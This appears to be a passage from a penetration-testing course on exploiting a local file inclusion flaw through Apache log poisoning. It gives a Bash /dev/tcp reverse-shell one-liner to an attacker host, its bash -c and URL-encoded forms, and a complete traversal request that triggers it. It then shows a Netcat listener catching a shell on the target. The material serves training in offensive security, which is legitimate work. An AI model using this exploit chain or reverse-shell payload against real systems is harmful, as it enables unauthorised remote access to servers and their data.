 We have achieved command execution on the target system and can
leverage this to get a reverse shell or add our SSH key to the
authorized_keys file for a user.

**Obtain a reverse shell by adding a command to
the cmd parameter. We can use a common Bash TCP reverse shell
one-liner:
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
**

Since we'll execute our command through the PHP system function, we should be aware that the command may be executed via the Bourne Shell. The reverse shell one-liner above contains syntax that is not supported by the Bourne Shell.

To ensure the reverse shell is executed via Bash, we need to modify the reverse shell command. We can do this by providing the reverse shell one-liner as argument to bash -c, which executes a command with Bash.
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0<&1"
```
We'll once again encode the special characters with URL encoding.
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
Revised.
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 HTTP/1.1
```

Before we send the request, let's start a Netcat listener on port 4444 on our Kali machine. It will receive the incoming reverse shell from the target system. Once the listener is started, we can press Send in Burp to send the request.
```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.3] from (UNKNOWN) [192.168.50.16] 57848
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```

Exploiting LFI on Windows only differs from Linux when it comes to file paths and code execution.

When we use Log Poisoning on Windows, we should understand that the log files are located in application-specific paths. For example, on a target running XAMPP, the Apache logs can be found in C:\xampp\apache\logs\.
